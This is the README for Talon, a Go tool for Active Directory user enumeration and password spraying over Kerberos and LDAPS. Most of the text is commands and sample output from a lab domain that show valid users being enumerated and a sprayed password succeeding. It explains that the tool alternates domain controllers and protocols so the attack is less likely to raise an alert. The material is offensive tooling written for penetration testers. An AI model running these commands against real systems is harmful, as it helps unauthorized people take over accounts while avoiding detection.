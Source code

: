 

<h1 align="center">
<br>
<img src=Screenshots/Talon.png>
<br>
</h1>

# Talon


Talon is a tool designed to perform automated password guessing attacks while remaining undetected. Talon can enumerate a list of users to identify which users are valid, using Kerberos. Talon can also perform a password guessing attack against the Kerberos and LDAPS (LDAP Secure) services. Talon can either use a single domain controller or multiple ones to perform these attacks, randomizing each attempt, between the domain controllers and services (LDAP or Kerberos).

More info about the techniques can be found on the following [Blog](https://www.optiv.com/explore-optiv-insights/blog/digging-your-talons-new-take-password-guessing) 

## Usage
Download release for your OS from [releases](https://github.com/optiv/Talon/releases)

## Contributing
Talon was developed in golang.

The first step as always is to clone the repo. Before you compile Talon you'll need to install the dependencies. To install them, run following commands:
```
go get github.com/fatih/color
go get gopkg.in/jcmturner/gokrb5.v7/client
go get gopkg.in/jcmturner/gokrb5.v7/config
go get gopkg.in/jcmturner/gokrb5.v7/iana/etypeID
go get gopkg.in/ldap.v2
```
Then build it

```
go build Talon.go
```

## Usage

```
$ ./Talon -h
Usage of ./Talon:
  -A float
    	Authentication attempts per lockout period (default 3)
  -D string
    	Fully qualified domain to use
  -E	Enumerates which users are valid
  -H string
    	Domain controller to connect to
  -Hostfile string
    	File containing the list of domain controllers to connect to
  -K	Test against Kerberos only
  -L	Test against LDAP only
  -Lockout float
    	Account lockout period in minutes (default 60)
  -O string
    	File to append the results to
  -P string
    	Password to use
  -Passfile string
    	File containing the list of passwords
  -U string
    	Username to authenticate as
  -Userfile string
    	File containing the list of usernames
  -debug
    	Print debug statements
  -sleep float
    	Time inbetween attempts (default 0.5)
```


## Enumeration Mode
User enumeration mode can be executed with the `-E` flag which will send only Kerberos TGT pre-authentication request to the target KDC, however, this request is sent with a known bad or no longer supported encryption type.  Talon reviews the response by the KDC to determine if responds with a `KDC_ERR_ETYPE_NOSUPP`, which indicates if a user exists or `KDC_ERR_C_PRINCIPAL_UNKNOWN` if it does not. Talon can perform this type of enumeration against multiple domain controllers in an enterprise using the `-Hostfile` command to specify multiple domain controllers, or a single domain controller using `-H`. Using this technique will not cause any login failures so it will not lock out any of the users.

```
./Talon -D STARLABS.LOCAL -Hostfile DCs -Userfile Users -sleep 1 -E 

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[-]  172.16.144.195 STARLABS.LOCAL\asmith:  = User Does Not Exist
[+]  172.16.144.185 STARLABS.LOCAL\ballen:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\bjohnson:  = User Does Not Exist
[-]  172.16.144.195 STARLABS.LOCAL\bwayne:  = User Does Not Exist
[+]  172.16.144.195 STARLABS.LOCAL\csnow:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\jtodd:  = User Does Not Exist
[+]  172.16.144.186 STARLABS.LOCAL\hwells:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\wwest:  = User's Account Locked
```

## Automated Password Guessing Mode
Talon utilize Kerberos and LDAP, which are both integrated into Active Directory for authentication. Talon can perform password guessing by alternating between the two services, allowing the password attack traffic to be split across two protocols. This splits the number of potential events generated, as a result reducing the chance of an alert. Talon takes this one step further, by distributing a password attack against multiple domain controllers in an enterprise using the `-Hostfile`, alternating between LDAP and Kerberos each time to create an additional layer of obscurity. A single domain controller can be provided using in the `-H` command if needed.

```
./Talon -D STARLABS.LOCAL -Hostfile DCs -Userfile ValidUsers -P "Not3vil" -sleep 1

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)

                
[-]  172.16.144.186 STARLABS.LOCAL\admin:Not3vil = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ballen:Not3vil = Failed
[-]  172.16.144.195 STARLABS.LOCAL\cramon:Not3vil = Failed
[+]  172.16.144.185 STARLABS.LOCAL\hwells:Not3vil = Success
[-]  172.16.144.195 STARLABS.LOCAL\ssmith:Not3vil = Failed
```

Talon is designed to be versatile given any situation as a result, if only Kerberos is available, Talon can be set to only attack against Kerberos using the `-K` flag or only LDAP using the `-L` flag.

Talon can use both Kerberos and LDAP to read the responses as we perform a password guessing attack. Talon can detect account lockouts during an active password guessing attack by reading the response code from each password attempt. This can help prevent any unwanted account locks across an enterprise, helping you to remain undetected. Simply follow the prompt to quit or continue the attack.

```
root@kali:~# ./Talon -Hostfile DCs -Userfile ValidUsers -D STARLABS.local -P "Password!" -sleep 2

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[-]  172.16.144.186 STARLABS.LOCAL\ballen:Password! = Failed
[-]  172.16.144.185 STARLABS.LOCAL\csnow:Password! = Failed
[-]  172.16.144.186 STARLABS.LOCAL\wwest:Password! = User's Account Locked
[*] Account lock out detected - Do you want to continue.[y/n]:
```


###



### Troubleshooting
Talon comes equip to detect if the  targeted domain controllers are active or become unavailable. This helps ensure your getting accurate results while not wasting time. 


```
root@kali:~# ./Talon -H 172.14.15.1 -Userfile ValidUsers -D STARLABS.local -P "Frosty20" -sleep 2

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[Root cause: Networking_Error] Networking_Error: AS Exchange Error: failed sending AS_REQ to KDC: failed to communicate with KDC 172.14.15.1
[*] Do you want to continue.[y/n]:
```


### Timing Controls

Talon can perform password guessing against a list of possible passwords in a file using the (`-Passfile`). As this can be VERY DANGEROUS, Talon has controls in place to pause after a certain amount of attempts (`-A`) for a specified time (`-Lockout`). <b>Please note</b> that it is important to know the password policy before using these options as queueing multiple password attempts can lock out accounts if you do not have the Password policy. 


```
./Talon -H 172.16.144.185 -Userfile users -Passfile Passwords -D STARLABS.local -Lockout 45 -A 2 -sleep 1.5

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[*] Warning: Selection option will spray multiple passwords and risk locking accounts. Do you want to continue? [y/n]: y

03-10-2022 15:58:21: Using password: Password123
[-]  172.16.144.185 STARLABS.LOCAL\admin:Password123 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ballen:Password123 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\cramon:Password123 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\hwells:Password123 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ssmith:Password123 = Failed
03-10-2022 15:58:26: Using password: Spring2022
[-]  172.16.144.185 STARLABS.LOCAL\admin:Spring2022 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ballen:Spring2022 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\cramon:Spring2022 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\hwells:Spring2022 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ssmith:Spring2022 = Failed

Hit timeout period - Sleeping for 45 minutes...
Will resume at 03-10-2022 16:43:35
```



##### Changelog
* Published  on 04/09/2018
* Version 1.2 released 02/14/2019
* Version 1.3 released 05/03/2019
* Version 1.4 released 03/17/2020
* Version 2.0 public relase 06/18/2020
* Version 3.0 relase 03/10/2022
